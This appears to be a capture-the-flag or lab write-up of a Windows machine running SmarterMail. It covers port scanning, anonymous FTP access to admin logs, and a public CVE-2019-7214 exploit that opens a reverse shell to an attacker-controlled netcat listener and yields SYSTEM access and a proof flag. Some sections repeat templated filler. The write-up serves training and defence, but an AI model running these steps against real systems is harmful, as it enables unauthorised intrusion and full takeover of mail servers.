

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Mail server (SmarterMail) and FTP |
| Primary Entry Vector      | SmarterMail .NET Remoting RCE (CVE-2019-7214) |
| Privilege Escalation Path | Direct SYSTEM shell via exploit |

## Credentials

No credentials obtained.

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.65:5040
Open 192.168.178.65:9998
Open 192.168.178.65:17001
```

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
9998/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
17001/tcp open  remoting      MS .NET Remoting services
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

FTP anonymous login was allowed. The Logs directory contained administrative activity logs:

```bash
ftp $ip
# anonymous login
ftp> ls
```

```bash
04-29-20  09:31PM       <DIR>          ImapRetrieval
03-04-26  06:00AM       <DIR>          Logs
04-29-20  09:31PM       <DIR>          PopRetrieval
04-29-20  09:32PM       <DIR>          Spool
```

```bash
cat 2020.05.12-administrative.log
```

```bash
03:35:45.726 [192.168.118.6] User @ calling create primary system admin, username: admin
03:35:47.054 [192.168.118.6] Webmail Login successful: With user admin
```

SmarterMail was running on port 9998. CVE-2019-7214 exploits the unauthenticated .NET Remoting endpoint on port 17001:

https://github.com/devzspy/CVE-2019-7214

```bash
python3 CVE-2019-7214.py -l 192.168.45.166 -r 192.168.178.65 --lport 4444
```

```bash
[*] Attacking: tcp://192.168.178.65:17001/Servers
[*] Attempting to send exploit...
[*] Exploit sent! Check your shell at 192.168.45.166:4444
```

```bash
nc -lvnp 4444
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.65] 49970

PS C:\Windows\system32> whoami
nt authority\system
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The exploit yielded a direct `nt authority\system` shell — no additional privilege escalation was required.

```bash
PS C:\users\administrator\desktop> type proof.txt
f5068fd94918f48cd312676f40bf9541
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Keep mail server software (SmarterMail) patched — CVE-2019-7214 allows unauthenticated RCE via .NET Remoting.
- Disable or firewall internal remoting endpoints (port 17001) from untrusted networks.
- Anonymous FTP access should be restricted; log directories expose operational details.
- Audit and rotate admin credentials regularly on all exposed services.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2019-7214: https://nvd.nist.gov/vuln/detail/CVE-2019-7214
- SmarterMail CVE-2019-7214 PoC: https://github.com/devzspy/CVE-2019-7214
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
